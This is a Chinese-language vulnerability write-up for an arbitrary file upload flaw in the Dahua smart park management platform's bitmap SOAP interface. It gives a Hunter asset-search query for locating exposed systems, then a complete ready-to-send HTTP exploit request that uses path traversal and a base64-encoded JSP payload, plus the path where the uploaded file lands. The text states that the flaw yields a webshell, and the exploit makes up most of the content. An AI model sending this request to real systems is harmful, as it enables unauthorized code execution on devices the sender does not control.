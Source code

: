 # 大华智慧园区综合管理平台bitmap任意文件上传漏洞

# 一、漏洞描述
大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。 <font style="color:rgba(0, 0, 0, 0.9);">大华智慧园区综合管理平台在/emap/webservice/gis/soap/bitmap接口处存在任意文件上传漏洞，可以利用此漏洞获得webshell。</font>

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter:`app.name="Dahua 大华 智慧园区管理平台"`  
![1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113.png](./img/HG23J_nyhrdo58lW/1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113-560053.png)
+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/HG23J_nyhrdo58lW/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-864747.png)

# 四、漏洞复现
```plain
POST /emap/webservice/gis/soap/bitmap HTTP/1.1
Cookie: JSESSIONID=C30EF0C843ACBDC71597DEE0CBDADE8C
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 628

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:res="http://response.webservice.bitmap.mapbiz.emap.dahuatech.com/">
   <soapenv:Header/>
   <soapenv:Body>
      <res:uploadPicFile>
         <arg0>
 <picName>stc.jsp</picName>
                    <!--type: string-->
                    <picPath>/../stc.jsp</picPath>
         </arg0>
         <!--type: base64Binary-->
         <arg1>PCVvdXQucHJpbnQoOTk5Kjk5OSk7bmV3IGphdmEuaW8uRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKS5kZWxldGUoKTslPg==</arg1>
      </res:uploadPicFile>
   </soapenv:Body>
</soapenv:Envelope>
```

![1705066652548-ea581a8b-7dda-47d8-ba5c-4146ca15a392.png](./img/HG23J_nyhrdo58lW/1705066652548-ea581a8b-7dda-47d8-ba5c-4146ca15a392-879908.png)

上传文件位置

```plain
/upload/stc.jsp
```

![1705066683323-27e6d62e-6195-4d8c-a4ed-f17ec4a35ab1.png](./img/HG23J_nyhrdo58lW/1705066683323-27e6d62e-6195-4d8c-a4ed-f17ec4a35ab1-230024.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ygkzgd2uu9gcxavq>